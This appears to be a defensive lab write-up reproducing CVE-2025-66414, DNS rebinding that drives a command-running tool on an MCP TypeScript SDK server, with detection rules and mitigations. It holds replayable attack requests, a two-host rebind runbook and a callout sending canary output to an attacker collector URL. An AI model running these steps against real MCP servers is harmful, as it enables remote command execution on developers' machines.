

# CVE-2025-66414 - DNS rebinding past Origin validation on the MCP TypeScript SDK transport

A technical reproduction and detection study.
Meridian Range, module 02. Classification: defensive security research. Last verified 2026-08-02.

<p align="center"></p>

<sub><b>The attack, driven from a real browser.</b> Left: what the developer sees, one tab that never
changes its URL. Right: the victim's own request log. Nothing happens until the answer for the rebind
name flips to the victim's address; then the same page, at the same URL, is driving the MCP server on
the developer's machine. Both request rows carry a <code>Host</code> the server does not serve, and the
page prints the output of a command that really ran. Two caveats: the clip predates the 2026-08-02
rename, so it shows <code>rebind.lab.example</code> where this page now says
<code>rebind.lab.consulereit.nl</code>, and the flip was achieved by two-record failover rather than TTL
expiry (see <a href="#researchers-notes">Researcher's notes</a>). Capture method:
<a href="../../media/README.md">media/README.md</a>.</sub>

---

## The scenario

A developer opens a link. The page is dull: a status page that says it is loading and then keeps saying
it. They leave the tab open and go back to work.

The page is not idle. It is talking to its own origin, over and over, on a hostname the attacker owns. A
few seconds in, the attacker changes one DNS record so that the same hostname now answers with the
developer's own machine. The browser has no reason to notice: the URL in the bar has not changed, the
scheme has not changed, the port has not changed, so as far as the Same-Origin Policy is concerned the
page is still talking to itself. The next request goes to the MCP server on the developer's laptop, is
handed a session, and drives a build-step command.

This is the attack that survives the fix for module 01. There, the defence was to check the `Origin`
header: a page at `attacker.lab.consulereit.nl` reading a local server is visible because its requests announce a
foreign origin. Here the request announces nothing, because it really is same-origin from the browser's
point of view: whatever `Origin` it carries is the attacker's own name, which is not foreign to
anything. The only thing still out of place is the `Host`: the server is being addressed by a name it
does not serve. A server that does not check that has nothing left to catch this
with.

---

## Executive summary

**What.** The Model Context Protocol TypeScript SDK's streamable-HTTP server transport ships with
DNS-rebinding protection **off by default**. `StreamableHTTPServerTransport` accepts an
`enableDnsRebindingProtection` option with an `allowedHosts` list; when it is not set, the transport
serves any request regardless of the `Host` header it carries. An attacker who controls a DNS zone can
therefore point their own hostname at a victim's MCP server and drive it from a page the victim already
has open, without ever sending a cross-origin request.

**Why it exists.** The MCP transport security guidance names three controls: validate `Origin` (MUST),
bind to loopback (SHOULD), authenticate (SHOULD). Origin validation is the one that gets implemented,
because it is the one module 01 teaches you to implement. DNS rebinding is precisely the technique that
makes `Origin` unavailable as a signal: after the flip the browser considers the request same-origin,
so the `Origin` it sends is the attacker's own name, matching the `Host`. There is no *foreign* origin
left to reject (CWE-346). The insecure default (CWE-1188) is that the remaining control, a `Host`
allow-list, is off unless the application opts in.

**Impact.** Where the MCP server exposes a capability-bearing tool, a hostname the attacker owns becomes a
remote control for it. The reachability that "only localhost can reach it" was supposed to guarantee is
supplied by the victim's own browser, and no user interaction beyond keeping a tab open is required.

**What was demonstrated.** Against the vulnerable server on `@modelcontextprotocol/sdk` **1.29.0**, a
build that is past the advisory's fixed version, a post-rebind request carrying
`Host: rebind.lab.consulereit.nl` and no *cross-origin* `Origin` was
accepted, issued session `19070afd-2441-4a82-b886-b1c91dc73674`, and drove `run_command` to execution
(`ATTACK-OK`, 46 ms, VM-verified 2026-08-02). The benign canary `LAB_CANARY_24` came back in the tool
result together with `uid=0(root)` and the container hostname, which is what makes it proof of execution
rather than proof of a request. Enforcing the `Host` allow-list refuses the same request with `403`
before any session exists (`NO-REPRO`), and `./range matrix 02` agrees on both cells.

**What defenders should learn.** Validating `Origin` is necessary and not sufficient. Treat the `Host`
header as a control input on any locally-bound capability-bearing service, enforce an allow-list, and
alert on a request to the MCP transport whose `Host` is outside the known-good set **while no
cross-origin `Origin` is present**. That combination is the rebind signature, and it is exactly the case
module 01's CORS rule cannot see.

| | |
|---|---|
| **CVE** | CVE-2025-66414. Advisory [GHSA-w48q-cv73-mx4w](https://github.com/advisories/GHSA-w48q-cv73-mx4w) (verified against NVD and GHSA, 2026-08-02) |
| **CWE** | CWE-1188 (insecure default); chained CWE-346 (origin validation error), CWE-78 (exec) |
| **CVSS** | 8.1 High (CVSS 3.1, NVD: `AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:N`); 7.6 High (CVSS 4.0, GitHub: `AV:N/AC:L/AT:P/PR:N/UI:P/VC:H/VI:H/VA:N/SC:N/SI:N/SA:N`). Carried from the advisories, not re-scored here |
| **Advisory range** | Fixed in `@modelcontextprotocol/sdk` **1.24.0**; affected `< 1.24.0` |
| **What this lab runs** | **1.29.0**, five minor versions past that fix. The manifest declares `^1.12.0`, but `npm ci` installs from [`package-lock.json`](../../servers/ts-vuln/package-lock.json), which resolves 1.29.0. The insecure default is still present in it (see [Root cause](#root-cause-analysis)) |
| **Control** | `enableDnsRebindingProtection: true` with an `allowedHosts` list, or an equivalent server-side `Host` allow-list |
| **Status** | REPRODUCED, confidence HIGH (VM-verified 2026-08-02, host `ai-Standard-PC-Q35-ICH9-2009`, SDK 1.29.0 read from the image that produced the evidence) |
| **Reproduction** | `servers/ts-vuln` (buildbot-mcp), this module's [`scenario.ts`](./scenario.ts), benign canary only, egress-free lab |

---

## The attack in one picture



Module 01 ([`../01-cors-session-hijack/README.md`](../01-cors-session-hijack/README.md)) is the CORS
session hijack: a **cross-origin** read, stopped by validating `Origin`. This module is the attack that
starts where that fix ends.

---

## Architecture and trust boundaries

<p align="center"></p>

Three boundaries, and the crossing happens without any of them being violated in the way they were
designed to prevent:

- **Attacker infrastructure.** A page served from a hostname the attacker owns (`rebind.lab.consulereit.nl`), an
  authoritative DNS zone for that name with a 1 to 5 second TTL, and a collector that receives the
  exfiltrated canary. The DNS zone is not incidental here: it **is** the weapon. A fixed record pointing
  at the victim is not DNS rebinding, because the browser would then never have loaded attacker code from
  that origin in the first place.
- **The victim's browser (Same-Origin Policy).** The tab stays at one origin for the entire attack. The
  policy is doing its job perfectly: it permits a page to talk to its own origin. What it cannot express
  is that an origin is a *name*, and the address behind that name changed underneath it.
- **The developer host ("only localhost can reach it").** buildbot-mcp, a Node service on
  `@modelcontextprotocol/sdk` 1.29.0, exposes the streamable-HTTP transport and a `run_command`
  capability tool that shells out. The finding is not that the tool exists, but that after the flip the
  browser will carry requests to it from a page the attacker wrote.

Everything runs on isolated lab VMs; the sealed tier is a Docker network that is `internal: true` with no
published ports, and the only command ever sent through the tool is a benign canary.

---

## Root cause analysis

Two facts combine, and neither is a bug in the application code.

**1. The transport does not validate `Host` unless asked to.** The server constructs the SDK transport
with a session generator and nothing else, which is the shape every quickstart shows:

```ts
// servers/ts-vuln/src/index.ts - the transport as the SDK's own quickstart shows it
transport = new StreamableHTTPServerTransport({
  sessionIdGenerator: () => randomUUID(),
  onsessioninitialized: (id) => { transports[id] = transport!; },
});
```

There is no `enableDnsRebindingProtection`, so the protection is off and no `allowedHosts` list exists.
The transport will answer a request addressed to any hostname at all. That is the insecure default
CVE-2025-66414 describes (CWE-1188): the control exists in the SDK, it is simply not on unless the
application knows to turn it on.

**The default outlives the advisory's fixed version, and this lab is the evidence.** The advisory puts
the fix at 1.24.0. This lab declares `^1.12.0` in `package.json`, but that range is not what runs: the
image is built with `npm ci`, which installs the lockfile's resolution, and that is **1.29.0**. Read
straight out of the container image that produced the evidence below:

```js
// node_modules/@modelcontextprotocol/sdk/dist/esm/server/webStandardStreamableHttp.js
this._enableDnsRebindingProtection = options.enableDnsRebindingProtection ?? false;   // :70

validateRequestHeaders(req) {
  // Skip validation if protection is not enabled
  if (!this._enableDnsRebindingProtection) { return undefined; }                      // :109
  ...
```

`StreamableHTTPServerTransport` is now a thin wrapper that delegates to that class
(`streamableHttp.js:52`), so this is the code path the quickstart shape above actually reaches. The
default is `false`, and when it is `false` the `Host` check is not merely permissive, it is skipped
entirely before any allow-list is consulted.

The distinction worth being precise about: 1.24.0 is the version in which the SDK *responded* to the
advisory, not a version in which a server built the ordinary way became safe. The protection remains
opt-in. A reader who upgrades to a version at or above the "fixed" boundary and changes nothing else
still has a transport that answers to any `Host`, which is what the reproduction below shows on 1.29.0.
Take that as the module's practical finding: **for this class, "patched" is a property of the
application's configuration, not of the dependency version.**

**2. After a rebind there is no *foreign* `Origin` to check.** Once the attacker's own hostname resolves
to the victim, the page's `fetch("/mcp")` is same-origin. A browser still sends an `Origin` header on a
POST, but it is the page's own origin, so it matches the `Host` exactly. Any server-side check of the
form "is this `Origin` foreign?" answers no, and any cross-origin detection rule stays silent. This is
worth being precise about, because it is the one place a reader is likely to assume the header simply
disappears: the live capture at the top of this page shows
`origin: "http://rebind.lab.consulereit.nl:8080"` alongside `host: "rebind.lab.consulereit.nl:8080"` on both
requests. The headless scenario, which is not a browser, sends no `Origin` at all; both shapes are
non-cross-origin, and a detection has to cover both.

The consequence is that the two controls trade places. For module 01, `Origin` is the discriminator and
`Host` is uninteresting. Here `Origin` can never be foreign, and `Host` is the only field that still
carries the attacker's fingerprint.

**3. A capability tool sits behind the session.** `run_command` runs an ad-hoc build step, which is what a
CI assistant is for. It is ungated on purpose: the module studies who can reach it, not whether it should
exist.

---

## Attack sequence

<p align="center"></p>

The sequence has one property worth stating plainly: **nothing about the browser's request changes across
the flip.** Same scheme, same host, same port, same tab, same code. Only the DNS answer is different, and
DNS is not part of the origin.

The deterministic scenario in this module models the post-rebind request precisely, because that request
is the entire server-side consequence: connect to the victim's real address, present
`Host: rebind.lab.consulereit.nl`, send no `Origin`, and see what the server does with it.

---

## Reproduction: evidence and conclusion

The capture below is written by the harness during `./range verify 02` on the lab VM, pulled back with
`./range sync --pull-evidence`, and committed verbatim as [`./evidence/vuln.txt`](./evidence/vuln.txt).
It is not pasted in by hand.

### Terminal output

```text
[INFO ] Modelling the post-rebind request: connect to mcp.lab.consulereit.nl:8080, present Host rebind.lab.consulereit.nl, send no Origin.
[STEP ] Opening MCP session against mcp.lab.consulereit.nl:8080 with Host: rebind.lab.consulereit.nl
[PASS ] Session issued to a foreign Host: 19070afd...3674
[STEP ] Tool invocation: tools/call run_command (benign canary) over the rebound session
[PASS ] Canary executed: LAB_CANARY_24 returned over the rebound session
[INFO ] Exfiltrated canary output to attacker-collector (http://collector.lab.consulereit.nl:9000/pwned)

RESULT
------
  Vulnerability : CVE-2025-66414 (CWE-1188)
  Scenario      : 02-dns-rebind
  Status        : REPRODUCED
  Confidence    : HIGH
  Duration      : 46 ms
```

### Evidence (observed facts)

- The victim issued session `19070afd-2441-4a82-b886-b1c91dc73674` to a request carrying
  `Host: rebind.lab.consulereit.nl`, a name it does not serve, and no `Origin` header at all (CWE-1188,
  CWE-346).
- Proof-of-execution canary `LAB_CANARY_24` was returned in the tool output, alongside
  `uid=0(root) gid=0(root)` and the container hostname `e64bd70c86c5`, confirming the post-rebind
  request reached the victim MCP and ran.

### Conclusion

The evidence demonstrates the DNS-rebinding path against an MCP server that ships DNS-rebinding
protection off by default. The victim issued a session to a request that carried a foreign `Host` header
and no `Origin` at all, then executed a capability tool over it. Because the post-rebind request is
same-origin from the browser's point of view, no `Origin` check can see it: the control that holds is a
`Host` allow-list, enforced server-side.

### Evidence timeline

```text
12:37:18.729  +    1ms  Modelling the post-rebind request (Host rebind.lab.consulereit.nl, no Origin)
12:37:18.729  +    1ms  Opening MCP session against mcp.lab.consulereit.nl:8080
12:37:18.743  +   15ms  Session issued to a foreign Host: 19070afd...3674
12:37:18.743  +   15ms  Post-rebind request accepted by the victim MCP
12:37:18.743  +   15ms  Tool invocation: tools/call run_command (benign canary)
12:37:18.749  +   21ms  Canary executed: LAB_CANARY_24 returned over the rebound session
12:37:18.774  +   46ms  Exfiltrated canary output to attacker-collector
```

### Raw HTTP evidence (replayable protocol capture)

```http
# Post-rebind initialize - forged Host, no Origin
> POST /mcp HTTP/1.1
> content-type: application/json
> accept: application/json, text/event-stream
> host: rebind.lab.consulereit.nl
> {"jsonrpc":"2.0","id":0,"method":"initialize","params":{"protocolVersion":"2025-06-18", ... }}
< HTTP/1.1 200
< content-type: text/event-stream
< mcp-session-id: 19070afd-2441-4a82-b886-b1c91dc73674

# Capability invocation - run_command (benign canary) over the rebound session
> POST /mcp HTTP/1.1
> host: rebind.lab.consulereit.nl
> mcp-session-id: 19070afd-2441-4a82-b886-b1c91dc73674
> {"jsonrpc":"2.0","id":1,"method":"tools/call","params":{"name":"run_command","arguments":{"cmd":"id; hostname; echo LAB_CANARY_$$"}}}
< HTTP/1.1 200
< mcp-session-id: 19070afd-2441-4a82-b886-b1c91dc73674
< {"result":{"content":[{"type":"text","text":"uid=0(root) gid=0(root) ...\ne64bd70c86c5\nLAB_CANARY_24\n"}]}}
```

> The two reproductions differ on one line. The headless scenario above sends **no** `Origin`; the
> browser in the clip sends `http://rebind.lab.consulereit.nl:8080`, identical to its `Host`. Neither is
> *cross-origin*, which is the property a detection must key on. See [Detection](#detection-engineering).

---

## Detection engineering

<p align="center"></p>

Reproducing the attack is half the loop; catching it is the other half, and the SOC has to catch it
without cooperation from the vulnerable app. Two independent layers (full contract in
[`../../docs/telemetry-contract.md`](../../docs/telemetry-contract.md)):

- **Layer A - endpoint (Elastic Defend), the payload.** The exec surfaces as
  `node -> /bin/sh -c "...LAB_CANARY..."` in `logs-endpoint.events.process`, independent of any web
  logging.
- **Layer B - app-layer access telemetry, the root cause.** One record per request carrying raw facts
  (method, path, status, `Host`, `Origin`, session id, user agent). The SOC derives the verdict at
  ingest: `mcp.host.foreign` is true when the request's `Host` is outside the known-good set. Rule
  [`ATR-2026-70018`](./detection/ATR-2026-70018-dns-rebind-foreign-host.yaml) fires on that, with the
  additional condition that no cross-origin `Origin` is present.

```kql
event.dataset : "mcp.access"
  and url.path : "/mcp*"
  and mcp.host.foreign : true
  and not mcp.cors.cross_origin : true
  and host.name : "<LAB_HOST>"
```

The second clause is the one that matters, and the one this module got wrong until a real browser was
pointed at it. The obvious form, `not http.request.headers.origin : *` ("no Origin present"), **misses
the live attack**: a browser does send `Origin` on a POST even when talking to itself. What holds in
every rebind is that the request is not *cross-origin*, whether `Origin` is absent (local client,
headless scenario) or equal to the `Host` (browser after the flip). The derived `mcp.cors.cross_origin`
verdict covers both, and module 01's pipeline already computes it. A genuinely cross-origin request is
module 01's attack and fires
[`ATR-2026-70001`](../01-cors-session-hijack/detection/ATR-2026-70001-cors-session-hijack.yaml) instead;
a legitimate local client is not cross-origin either, which is why the `Host` half of the pair is what
separates this from benign traffic.

The lab server precomputes a `foreign_host` boolean in its own telemetry, which is convenient here and is
the **anti-pattern** in production: it means trusting the target to grade its own compromise. The
production-grade shape is the one module 01 uses, shipping the raw `Host` and deriving the verdict at
ingest. Both rules are authored **disabled** and scoped to the lab host, and are enabled only after a
confirmed live hit and a confirmed clean negative on benign traffic. Full rule text, field table and
false-positive notes: [`./detection/elastic.md`](./detection/elastic.md).

---

## Vulnerable vs fixed

The mitigation is the `Host` allow-list, enforced rather than observed. In this lab it is a single knob,
`ENABLE_DNS_REBIND_PROTECTION`, which turns the same `ALLOWED_HOSTS` set from telemetry into a control: a
request whose `Host` is not in the set is refused with `403` before any session is issued.
`./range matrix 02` runs the identical scenario against both settings, so the grid below is two real runs,
not a claim (VM run, 2026-08-02):

```text
02 DNS Rebinding - ENABLE_DNS_REBIND_PROTECTION
| ENABLE_DNS_REBIND_PROTECTION | expected   | observed   | agrees |
|------------------------------|------------|------------|--------|
| 0                            | reproduce  | reproduce  | yes    |
| 1                            | no-repro   | no-repro   | yes    |
```

| Stage | Protection off (the shipped default) | Protection on (`Host` allow-list) |
|-------|:-----:|:-----:|
| Victim's browser loads the attacker page | happens | happens |
| Attacker flips the A record to the victim | happens | happens |
| Post-rebind `POST /mcp` reaches the transport | reaches server | reaches server |
| `Host: rebind.lab.consulereit.nl` accepted | yes | **no, 403** |
| Session issued | yes | **not reached** |
| `tools/call run_command` accepted | yes | **not reached** |
| Command execution (`LAB_CANARY`) | yes | **not reached** |
| Scenario verdict | `ATTACK-OK` | `NO-REPRO` |

The whole chain is gated on the row where the `Host` is judged. Note what does **not** change: the
telemetry is emitted either way, so the detection still fires on the attempt while the attempt stops
working. A control that silences your telemetry when it engages is worse than one that does not.

---

## IOC summary

An incident-response artifact for the attack as it appears to a SOC (session id redacted):

```text
Endpoints:       /mcp
Methods:         POST
Header Host:     rebind.lab.consulereit.nl        (a name the server does not serve; the discriminator)
Header Origin:   absent (headless) or http://rebind.lab.consulereit.nl:8080 (browser); never cross-origin
User-Agent:      browser-class (post-rebind page; same-origin from the browser's point of view)
Session id:      19070afd...3674           (lab-ephemeral UUID, minted for the foreign Host)
Tools driven:    run_command (capability exec)
Source:          rebound attacker domain resolving to the victim address
Exfil sink:      http://collector.lab.consulereit.nl:9000/pwned
Detection ops:   ATR-2026-70018 (mcp.access, mcp.host.foreign:true, not cross-origin)
                 Elastic Defend EQL (parent node, child sh, command_line like LAB_CANARY)
```

---

## Live rebind on two hosts (operator runbook)

This is the TTL-driven path, written out so it can be walked: one record whose answer is rewritten, and a
browser that re-resolves when the TTL expires. It is the one thing the recorded clip does not
demonstrate (that capture used two-record failover instead), so treat it as a procedure rather than as a
result. It needs two hosts, because one hostname must resolve to two different addresses over time on the
same port, and one host cannot bind that port twice.

```
                 rebind.lab.consulereit.nl : PORT        (same scheme, host and port throughout)
  initial answer ---------------------------------> <ATTACKER_IP>   ./deploy/attacker.yml
                                                                     rebind-web serves rebind.html
   (operator flips the A record; short TTL)
  final answer   ---------------------------------> <VICTIM_IP>     ./deploy/victim.yml
                                                                     mcp-vuln (Host allow-list off)
```

Real host identifiers are redacted to `<ATTACKER_IP>` / `<VICTIM_IP>`; the live values live only in the
operator's notes.

### Port model

`rebind-web` (attacker) and `mcp-vuln` (victim) MUST publish the **same** port (`REBIND_HTTP_PORT` /
`VICTIM_HTTP_PORT`, default `8080`). A rebind keeps scheme, host and port identical and changes only the
resolved address. Two hosts means no port collision, which is why this module has no `single-host` tier.

### Bring the two sides up

```bash
# on the ATTACKER host (serves the page and the exfil sink):
REBIND_HTTP_PORT=8080 COLLECTOR_PORT=9000 \
  MERIDIAN_ATTACKER_HOST=1 ./range up 02 --tier split-host --side attacker

# on the VICTIM VM (exposes the vulnerable MCP for Host rebind.lab.consulereit.nl):
VICTIM_HTTP_PORT=8080 \
  ./range up 02 --tier split-host --side victim
```

`./range up` refuses if another module is already deployed on that host, so run `./range down` first when
switching from module 01.

Neither side starts a DNS server. If you have no external Technitium, you may opt into a bundled one on
the attacker host with `--profile bundled-dns`, which is a raw-compose escape hatch since `./range` does
not pass profiles:

```bash
docker compose --project-directory . -f modules/02-dns-rebind/deploy/attacker.yml --profile bundled-dns up -d
```

### The DNS record

Create ONE authoritative record on your existing lab DNS (or the bundled `rebind-dns` if you opted into
it). This repo ships no zone data and changes no DNS silently: you make this change.

| Field | Value |
|-------|-------|
| Zone | `lab.consulereit.nl` (or a delegated `rebind.lab.consulereit.nl` zone) |
| Name | `rebind.lab.consulereit.nl` |
| Type | `A` |
| **TTL** | **short: 1 to 5 seconds**, so the flip takes effect on the next request rather than in minutes |
| **Initial answer** | `<ATTACKER_IP>` (the host running this module's `./deploy/attacker.yml`) |
| **Final answer** | `<VICTIM_IP>` (the VM running this module's `./deploy/victim.yml`) |

**Browser resolver requirements.** The victim browser must use the lab resolver (not a public resolver,
not DoH) or it will never see the record or its short TTL. Some browsers and operating systems cache
beyond the record TTL: keep the TTL at 1 to 5 seconds, and disable the browser's built-in secure DNS or
clear its host cache between phases if it caches aggressively. `rebind.lab.consulereit.nl` resolves only on the
isolated lab LAN.

**No Traefik, deliberately.** This module declares `topology.traefik: false`, so `./range traefik 02`
refuses to emit routers for it. Fronting a rebind with a reverse proxy moves the flip into a proxy
backend, and a backend swap is not DNS rebinding: the whole point is that the DNS *answer* changes while
the browser keeps using one URL. If you nonetheless route it through your own existing Traefik, you own
that config, both ingresses must accept the same `Host`, and it must still be the record that flips.

### Drive it

1. On the victim browser (resolver = the lab DNS), open the attacker page while the record still answers
   with the attacker address:
   `http://rebind.lab.consulereit.nl:8080/rebind.html?collector=http://<ATTACKER_IP>:9000/pwned`
   The page begins polling `http://rebind.lab.consulereit.nl:8080/mcp` (same-origin) and waits.
2. Flip the record to `<VICTIM_IP>`. Within one TTL the same-origin `/mcp` resolves to the victim MCP; the
   page completes `initialize` (a session is issued, because the allow-list is off), runs the benign
   canary, and beacons the output to the collector.

Success is the **post-rebind hit on the victim**, not the page load:

```bash
# on the VICTIM VM:
docker compose -p meridian-range-02-victim logs mcp-vuln | grep '"host":"rebind.lab.consulereit.nl"'
# on the ATTACKER host:
docker compose -p meridian-range-02-attacker logs attacker-collector | grep LAB_CANARY
```

### Restore and tear down

Set the A record back to `<ATTACKER_IP>` or delete it if it was created only for the test, and restore
the normal TTL if you shortened a shared record. Then:

```bash
# attacker host:
MERIDIAN_ATTACKER_HOST=1 ./range down
# victim VM:
./range down
```

Confirm the sealed state on each host afterwards: `ss -tlnp | grep -v ':22 '` shows no lab port bound and
`./range status` reports nothing deployed.

---

## Researcher's notes

- **Which run proves which half.** `./range verify 02` is the deterministic one: it models the
  post-rebind request with a forged `Host` and no `Origin`, and it proves the **server-side consequence**
  (a session issued to a foreign `Host`, a capability tool driven over it). It is the source of the
  evidence file and the matrix, and it exercises no browser, resolver or TTL. The clip at the top is the
  second run and proves the **delivery half**: a real Chromium at one unchanging URL whose same-origin
  `fetch` lands on the victim once the name's answer changes. Not demonstrated: TTL expiry as the flip
  mechanism (next note but one).
- **A browser does not drop the `Origin` header, and this study said it did.** The first version of this
  writeup, and the detection rule beside it, described the rebind request as carrying no `Origin` at all.
  True of the headless scenario, false of a browser: the clip shows
  `origin: "http://rebind.lab.consulereit.nl:8080"` on both requests, matching the `Host`. The claim
  survived because the only reproduction was headless. Corrected here and in
  [`detection/elastic.md`](./detection/elastic.md), where the rule now keys on "not cross-origin" rather
  than "no Origin present"; the earlier form would have missed the live attack entirely. This is why a
  range records itself driving a real browser instead of trusting a harness.
- **The clip beat the browser's DNS cache with two A records, not with the TTL.** The documented model
  is a short-TTL record whose answer is rewritten. Chromium held the first answer regardless of the
  1-second TTL and never re-resolved inside a 20-second take. The published capture therefore serves
  two A records, attacker first, and the attacker's listener is stopped at the moment of the flip; the
  browser fails over to the second address inside the same cached entry. That is standard published
  rebind technique rather than a shortcut for the camera, but it is a different mechanism from the
  runbook's TTL flip and the clip should not be read as proof that TTL-based rebinding beats a modern
  browser cache.
- **The mitigation is modelled at the app layer, not by flipping the SDK flag.** The matrix varies
  `ENABLE_DNS_REBIND_PROTECTION`, which the lab server reads to decide whether `ALLOWED_HOSTS` is
  telemetry or an enforced `403`. That reproduces the *control* the SDK option provides (a `Host`
  allow-list refusing a foreign `Host` before a session exists) without depending on the SDK's own
  implementation of it. Module 01 compares two real SDK builds; this module compares two real behaviours
  of one build. The difference is deliberate and worth knowing when reading the grid.
- **The wildcard CORS header is present but irrelevant here.** The capture shows
  `access-control-allow-origin: *` on the responses, because this same server is also the TypeScript
  cousin of module 01. It plays no part in this attack. In the headless run there is no `Origin`, so no
  CORS decision is made at all; in the browser run the request is same-origin, so CORS never gates it.
  Either way the response header is not what lets the attack through. Do not read it as the cause.
- **`uid=0(root)` is a lab artifact, not a finding.** The vulnerable container runs as root, so the canary
  reports root. In a real deployment the exec inherits whatever the MCP server runs as. The severity of
  the exec scales with that, and with what the tool is allowed to do.
- **A fixed wildcard record is not this attack.** If the name simply pointed at the victim from the start,
  the browser would never have run attacker code at that origin. The record's answer has to change over
  time, which is why the runbook insists on a short TTL and on confirming the post-rebind hit rather than
  the page load.
- **Why `Origin` cannot be patched into a defence.** A server could require an `Origin` header and reject
  requests without one, but legitimate local MCP clients send no `Origin` either, so that rejects the
  normal case. This is the structural reason the `Host` allow-list is the control that holds.
- **Identifier provenance.** Checked against the primary sources on 2026-08-02, which retired the
  `(verify)` markers this section used to carry: NVD and GHSA-w48q-cv73-mx4w agree on the package, on
  the affected range `< 1.24.0`, on CWE-1188, and on both scores (8.1 under CVSS 3.1 from NVD, 7.6 under
  CVSS 4.0 from GitHub). Earlier revisions of this page printed the 7.6 under a "CVSS 3.1" heading, which
  was a mislabelled scoring system rather than a different opinion about severity. The running SDK
  version was read from the built image rather than from `package.json`, which is what surfaced the gap
  between the declared `^1.12.0` and the installed 1.29.0.

---

## Assessment

- **What was proven.** On a server built with the SDK's default transport configuration, a request
  carrying a `Host` the server does not serve and no cross-origin `Origin` is accepted, issued a session,
  and used to drive a capability tool to execution. Reproduced end to end in the lab (`ATTACK-OK`) with a
  replayable protocol capture, and the mitigation demonstrated (not asserted) by the same scenario
  returning `NO-REPRO` with the allow-list enforced. Separately, a real browser was recorded performing
  the delivery at one unchanging URL. The SDK build under test was **1.29.0**, past the advisory's 1.24.0
  fix, so the insecure default is shown to persist rather than merely to have existed.
- **Confidence.** High for the server-side consequence, the mitigation, and the version finding (the
  resolved SDK version and its `?? false` default were read from the image that produced the evidence).
  High for browser-driven delivery. The one thing not established is that TTL expiry alone flips a
  modern browser: the clip achieved the flip by other published means, and the TTL path stays a runbook.
- **Preconditions.** (1) The MCP server exposes the streamable-HTTP transport without
  `enableDnsRebindingProtection`. (2) The attacker controls a DNS zone and can serve a page from a name in
  it. (3) The victim opens that page in a browser that can reach the server, and leaves the tab open long
  enough for one TTL. (4) A tool worth driving exists; the transport flaw is the same regardless, but
  impact scales with the tool.
- **Exploitability.** Straightforward where the attacker owns a zone. No credential is needed, no
  cross-origin read is involved, and no browser warning appears. The gate is patience, not skill.
- **Detection recommendations.** Ship the MCP transport's access log as `mcp.access` with the raw `Host`
  and `Origin` headers, derive the foreign-`Host` verdict at ingest, and alert on a request to `/mcp*`
  with a foreign `Host` and no cross-origin `Origin`. Back it with EDR process telemetry for the
  capability exec. Scope to the relevant hosts and validate against benign local-client traffic before
  enabling.
- **Mitigation recommendations.** Turn on `enableDnsRebindingProtection` with an explicit `allowedHosts`
  list, or enforce an equivalent `Host` allow-list in front of the transport. Keep validating `Origin`
  too: the two controls cover different attacks, and module 01 is the one `Origin` stops. Bind to
  loopback, authenticate the transport, and gate or sandbox ad-hoc exec tools. Treat the MCP session as a
  credential.
- **Remaining limitations.** TTL-driven re-resolution is not demonstrated against a modern browser cache
  (the recorded flip used a two-record failover); the mitigation is modelled at the app layer rather than
  by the SDK flag; and the two-host live runbook has not been walked end to end as written.

**The takeaway.** Module 01's lesson was that localhost is not a trust boundary. This module's lesson is
narrower and sharper: the fix for module 01 is not a fix for the class. `Origin` is a header the browser
volunteers when it thinks two parties are different, and DNS rebinding works precisely by making the
browser think they are the same. Any control that depends on the attacker's request announcing itself as
foreign can be dissolved by making it not foreign. The `Host` header survives that, because the attacker
needs their own name to stay in the request for the browser to keep talking to it. Enforce the name the
server answers to, and the whole sequence stops before a session exists.

**And the second takeaway, which this module found by checking rather than by reading.** The advisory
says fixed in 1.24.0. The lab runs 1.29.0 and reproduces anyway, because what 1.24.0 shipped was the
advisory, not a safe default: `enableDnsRebindingProtection` is still `?? false`. For an opt-in control,
the dependency version tells you almost nothing about whether a given server is exposed. Read the
constructor, not the changelog, and read the version from the artifact you actually deployed rather than
from the range in `package.json`.

---

## Reproduce it live

On the isolated lab VM only (marked by `/etc/meridian-vm`, or `MERIDIAN_ON_VM=1` for a single command):

```bash
./range up 02        # buildbot-mcp + attacker infra, sealed tier, no DNS needed
./range run 02       # the full evidence package above, ending in RESULT: REPRODUCED
./range verify 02    # the same run as the gate: asserts ATTACK-OK and writes ./evidence/vuln.txt

# the mitigation, both settings in one command (0 reproduces; 1 does not):
./range matrix 02

# read-only observation, drives no tool:
./range probe 02
```

The live two-host rebind is the runbook above.

---

## Disclosure timeline

Not published here. The advisory's private timeline is not public information and is not guessed; see the
references below for the public record. Nothing in this module was discovered by this project: it is a
reproduction of a published insecure default against a build that carries it.

---

## References

- NVD - CVE-2025-66414 - <https://nvd.nist.gov/vuln/detail/CVE-2025-66414>
- GitHub Security Advisory GHSA-w48q-cv73-mx4w (the same finding; affected `< 1.24.0`, fixed 1.24.0) - <https://github.com/advisories/GHSA-w48q-cv73-mx4w>
- CVE-2025-49596 - MCP **Inspector** `< 0.14.1`, CVSS 9.4 - <https://nvd.nist.gov/vuln/detail/CVE-2025-49596>. **Related work, not part of this chain.** It is a different product (the Inspector developer tool, not the SDK transport) and nothing in this module's reproduction depends on it. It is listed because it is the highest-impact known consequence of a browser reaching a local MCP component: unauthenticated client-to-proxy access that launches commands over stdio. Whether DNS rebinding is a stated delivery path for it is not asserted here; the NVD text does not mention rebinding `(verify)`
- CWE-1188 - Initialization of a Resource with an Insecure Default - <https://cwe.mitre.org/data/definitions/1188.html>
- CWE-346 - Origin Validation Error - <https://cwe.mitre.org/data/definitions/346.html>
- Model Context Protocol specification - transport security guidance - <https://modelcontextprotocol.io>

Companion (lab):

- Module 01 - the CORS session hijack this attack outlives - [`../01-cors-session-hijack/README.md`](../01-cors-session-hijack/README.md)
- OWASP LLM Top 10 (LLM06, Excessive Agency); OWASP Agentic Security Initiative (ASI02/ASI03)
- Evidence: [`vuln.txt`](./evidence/vuln.txt) (ATTACK-OK, VM-verified 2026-08-02)
- Detection: [`ATR-2026-70018`](./detection/ATR-2026-70018-dns-rebind-foreign-host.yaml), [`elastic.md`](./detection/elastic.md)
- Figures: [`02-architecture.svg`](./media/02-architecture.svg), [`02-sequence.svg`](./media/02-sequence.svg), [`02-detection-pipeline.svg`](./media/02-detection-pipeline.svg)
